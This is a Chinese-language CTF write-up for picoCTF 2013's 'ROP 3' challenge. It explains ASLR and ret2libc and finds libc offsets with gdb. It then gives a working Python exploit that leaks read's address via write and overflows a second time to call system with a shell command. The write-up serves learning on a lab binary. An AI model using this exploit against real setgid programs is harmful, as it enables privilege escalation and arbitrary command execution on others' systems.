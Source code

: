 ```yaml
---
layout: post
title: ROP 3
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%203
---
```


这是 [ROP 2]({% url_by_slug picoctf-2013-rop-2 %}) 的进阶版。程序不再导入 `system` 函数，也没有现成的 "/bin/sh" 字符串了：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()  {
	char buf[128];
	read(STDIN_FILENO, buf,256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
    be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

{% include writeup_begin.html %}

目前，绝大多数系统都有 ASLR（地址空间随机化）机制。在 ASLR 开启的情况下，动态库、栈空间的地址每次执行都会随机变化，这让确定栈上的缓冲区地址、确定动态库中的函数地址更加困难。对于可执行程序来说，如果编译时使用了 `-pie` 编译选项（生成位置无关的可执行程序），则在执行这个程序时，它的加载地址也会随机化；如果指定了 `-no-pie` 选项，则每次加载的地址都是固定的。我们可以通过 `file` 命令来查看一个可执行文件中的代码是否是位置无关的：

```bash
dontpanic@Ubuntu:~$ gcc -no-pie test.c
dontpanic@Ubuntu:~$ file a.out
a.out: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b6a30608d5278aba091e7f52f2a7fd25e7c745a9, not stripped
dontpanic@Ubuntu:~$
dontpanic@Ubuntu:~$
dontpanic@Ubuntu:~$ gcc -pie test.c
dontpanic@Ubuntu:~$ file a.out
a.out: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75017e995c8e398060095542ea11b2bb1445a965, not stripped
dontpanic@Ubuntu:~$
```

rop3 程序采用了 `-no-pie`，这为我们的爆破带来了便利。

程序的导入表中存放有导入函数的真实地址，这些地址每次运行都会不同——这是因为在每一次程序执行时，动态库都会加载在不同的地址上。然而，虽然每一次动态库的加载地址不同，但同一动态库内部的函数之间的相对地址仍然不变，我们可以根据已导入的函数的真实地址来计算得出目标函数的真实地址。

这道题目的程序导入了 `read` 和 `write`，这让我们有机会通过 `write` 打印出它们的真实地址，从而能够计算出 `system` 函数的真实地址。这三个函数都是 `libc` 中的函数，因此它们相互之间的相对距离是不变的：

![libc]({% asset libc.png %})

我们选择 `read` 函数的地址作为基准。首先，我们需要通过溢出覆盖掉返回地址，从而能够调用 `write` 函数打印出 `read` 函数的真实地址，然后通过构造栈上的内容，让 `write` 函数再次返回至 `vulnerable_function`，以便我们再次覆盖返回地址调用 `system` 函数。`system` 函数的地址通过 `read` 函数的地址计算而得。

首先我们需要计算一下 `system` 和 `read` 函数之间的偏移。使用 gdb 调试一下：

```
(gdb) info address system
Symbol "system" is at 0xf7e25200 in a file compiled without debugging.
(gdb) info address read
Symbol "read" is at 0xf7ececb0 in a file compiled without debugging.
```

因此 `system` 的地址就等于 `read + (0xf7e25200 - 0xf7ececb0)`。下面我们有一个问题没有解决：`/bin/sh` 字符串要怎么搞？这里有几种不同方法：一是可以使用 gdb 在内存中搜索一下，看看内存中是否会有现成的字符串，有时候某些指令可能会碰巧组合成我们需要的字符串；二是我们可以自行找一块可写的内存把这一段字符串写入——我们有 `read` 方法可以从 `stdin` 读入字符串，而后写入到指定的地址中。

libc 中刚好存在 `/bin/sh` ——首先在 gdb 中使用 `info proc` 查看一下进程 id，然后通过 `cat /proc/PID/maps` 查看一下内存映射情况：

```
f7de8000-f7fbd000 r-xp 00000000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fbd000-f7fbe000 ---p 001d5000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fbe000-f7fc0000 r--p 001d5000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fc0000-f7fc1000 rw-p 001d7000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
```

然后在 gdb 中查找一下 `/bin/sh`：

```
(gdb) find 0xf7de8000,0xf7fbd000,"/bin/sh"
0xf7f660cf
1 pattern found.
```

因此，`/bin/sh` 的地址即为 `read_addr + (0xf7f660cf - 0xf7ececb0)`。

下面我们就要正式开始进行爆破了。由于我们需要两次溢出，第二次溢出填入的内容需要根据第一次溢出的输出而改变，因此我们需要 python 的一点帮助：

```python
import subprocess as sp

p = sp.Popen("./rop3-7f3312fe43c46d26", stdin=sp.PIPE, stdout=sp.PIPE, stderr=sp.PIPE, bufsize=1)

#                                               ↓write函数结束后的返回地址              ↓write的第二个参数
p.stdin.write('0' * 0x88 + '0000\xa0\x83\x04\x08\x74\x84\x04\x08\x01\x00\x00\x00\x00\xa0\x04\x08\x04\x00\x00\x00\n')
#                          ↑ebp ↑write的地址                      ↑write的第一个参数                ↑write的第三个参数
s = p.stdout.read(4)[::-1]
read_addr = int(s.encode('hex'), 16)
system_addr = read_addr + (0xf7e25200 - 0xf7ececb0)
system_s = format(system_addr, 'x').decode('hex')[::-1]
str_addr = read_addr + (0xf7f660cf - 0xf7ececb0)
str_s = format(str_addr, 'x').decode('hex')[::-1]

#                                              ↓system结束后的返回地址
p.stdin.write('0' * 0x88 + '0000' + system_s + '0000' + str_s + '0' * (256-0x88-16) + 'whoami\n')
#                          ↑ebp    ↑system的地址        ↑system的参数                   ↑想要执行的命令

# 将会打印出 whoami 的执行结果
print p.stdout.readline()

```

{% related_note stack-buffer-overflow-aslr %}

{% include writeup_end.html %}
